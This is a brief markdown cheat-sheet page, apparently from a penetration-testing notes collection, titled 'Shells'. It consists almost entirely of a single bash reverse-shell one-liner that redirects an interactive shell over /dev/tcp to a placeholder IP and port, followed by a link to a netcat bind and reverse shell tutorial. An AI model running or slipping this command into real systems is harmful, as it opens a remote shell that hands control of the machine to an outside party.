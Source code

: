# Shells

## Bash reverse shell
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

## References
- **Hacking with Netcat, Part 2: Bind and reverse shells.** ([original](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/), [archive](https://archive.is/6cvxP))
